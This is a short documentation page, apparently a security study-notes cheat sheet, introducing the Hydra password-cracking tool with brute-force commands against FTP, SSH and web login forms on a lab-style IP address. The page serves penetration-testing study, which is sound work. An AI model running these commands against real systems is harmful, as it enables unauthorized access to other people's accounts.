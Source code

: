 ```yaml
---
title: Hydra
sidebar_position: 2
description: Online login forms and password cracking tool.
---
```


## Hydra Introduction
- Hydra is a brute force online password cracking program, a quick system login password "hacking" tool.
- Hydra supports SSH, Web Application Form, FTP or SNMP.

## Basic commands

### FTP

```
hydra -l <username> -P <wordlist> ftp://MACHINE_IP
```

### SSH

```
hydra -l <username> -P <wordlist> 10.10.124.243 -t 4 ssh
```
- `-l` - Username
- `-P` - Password list
- `-t` - Number of threads (Optional)
- For example: `hydra -l root -P passwords.txt 10.10.124.243 -t 4 ssh`

### Post Web Form

```
sudo hydra -l <username> -P <wordlist> 10.10.124.243 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
- `http-post-form` - Method type
- `<path>` - URL. For example: login.php
- `<login_credentials>` - the username and password used to log in. For example: username=^USER^&password=^PASS^
- `<invalid_response>` - String in response when login fails.
- `-V` - Verbose output

- For example: `hydra -l <username> -P <wordlist> 10.10.124.243 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`